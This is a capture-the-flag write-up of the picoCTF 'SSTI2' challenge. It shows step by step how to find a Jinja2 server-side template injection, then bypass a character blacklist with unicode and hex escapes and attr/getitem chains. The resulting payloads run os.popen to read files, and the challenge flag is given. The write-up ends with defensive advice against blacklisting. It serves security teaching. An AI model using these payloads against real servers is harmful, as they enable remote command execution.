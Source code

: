 **Challenge:** SSTI2

**Level:** Medium

**Challenge Author:** Venax

### Description: 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)


### Step-by-Step Walkthrough:
 Upon opening the webpage, you are greeted by a website with various nodes and interactive elements and the title `NAND Simulator`

#### Investigation
All good web page vulnerability inspections will generally comprise of two things:

1. Using the Web Page Inspector
2. Testing all the interactive elements

Our first hint comes from the title of the challenge. SSTI stands for Server Side Template Injection, and we've been here before in `SSTI1`. So we can expect a vulnerability in the submission form somehow.

#### Investigation - Testing Injections
Reviewing this [site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) we can run through some test injections

The attacker tests the identified input field by injecting template syntax specific to the template engine in use. Different web frameworks use different template engines (e.g., Jinja2 for Python, Twig for PHP, or FreeMarker for Java).
In most cases, the polyglot input: `‘${{<%[%'"}}%\.’`, can often be utilized to detect a vulnerability. If it errors out, we know we're on the right track. 

Unfortunately, we're treated to a message `Stop trying to break me` in an angry tone. I'm not sure what this means for us, so let's try and work through this one step at a time, following the template on `PayloadsAllTheThings`

1. `${7*7}` - Fail
2. `{{7*7}}` - Success
3. `{{7*'7'}}` - Success

Therefore, we are looking at a potential vulnerability of either `Jinja2` or `Twig`, although the typical injections are rejected. 

`{{#}}` - Fails
`{{printf}}` - Succeeds
`{{printf ""}}` - Fails

I can deduce a few things. 

1. `{{}}` wraps a command and some commands can succeed, but there are some boundaries on the server side 
3. Some of the characters seem to be completely blacklisted


#### Learning - escape sequences
We're going to replace elements one at a time from the previous command with alternative characters. Here's the original command:

`{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`

first, let's replace all `_` with unicode. Unicode has an `escape sequence`

An `escape sequence` is a combination of characters used to represent special characters in a string that cannot be typed directly or would otherwise have a different meaning. Escape sequences usually start with a backslash (`\`) followed by one or more characters. The `escape sequence` for `_` is `\x5f`

#### Action - Replacing the code

Our command now looks like this:

```
{{self.\u005f\u005finit\u005f\u005f.\u005f\u005fglobals\u005f\u005f.\u005f\u005fbuiltins\u005f\u005f.\u005f\u005fimport\u005f\u005f('os').popen('cat flag').read()}}
```

Now replace the `.` characters

```
{{ self|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('\u005f\u005fbuiltins\u005f\u005f')|attr('\u005f\u005fimport\u005f\u005f')('os')|attr('popen')('cat flag')|attr('read')() }}
```
Now fix the `self` command

```
{{ request|attr('self')|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('\u005f\u005fbuiltins\u005f\u005f')|attr('\u005f\u005fimport\u005f\u005f')('os')|attr('popen')('cat flag')|attr('read')() }}
```

Finally, add in the `getitem` request

```
{{ request|attr('self')|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('\u005f\u005fgetitem\u005f\u005f')('\u005f\u005fbuiltins\u005f\u005f')|attr('\u005f\u005fgetitem\u005f\u005f')('\u005f\u005fimport\u005f\u005f')('os')|attr('popen')('cat flag')|attr('read')() }}
```

This last command will net you the flag, and just for learning sake, you can also use `hex` instead of `unicode` with the `escape sequence` as follows:

```
{{ request|attr('self')|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}
```

#### Learning - blacklisting characters doesn't work
It's hard to stay on top of things is the lesson here. Just because you fix one hole, doesn't mean you've fixed the ship. 


* There are often alternative encodings, representations, or similar characters that can slip past the blacklist (e.g., using Unicode, URL encoding, or case variations).
* Incomplete coverage: It’s difficult to anticipate and block every dangerous character or sequence, so some may be missed.
* Maintenance is hard: New attack techniques or characters may emerge, requiring constant updates to the blacklist.
* False sense of security: Developers may believe input is safe when it’s not, leading to vulnerabilities like SQL injection, XSS, or command injection.

Instead of trying to patch holes, there are better methods.

* Whitelisting (Allow-listing): Only allow specific, known-safe characters, patterns, or formats in user input.

* Input Validation: Strictly check that input matches expected types, lengths, and formats before processing.

* Context-Aware Escaping/Encoding: Escape or encode user input based on where it will be used (e.g., HTML, SQL, shell, URL).

* Use Security Libraries and Frameworks: Rely on well-maintained libraries for input handling and sanitization.

* Least Privilege Principle: Run applications with the minimum permissions necessary.

* Output Encoding: Encode output data to prevent injection when displaying user input.

<details><summary>Flag</summary>
    <pre>
    picoCTF{sst1_f1lt3r_byp4ss_e964f71b}
    </pre>
   </details>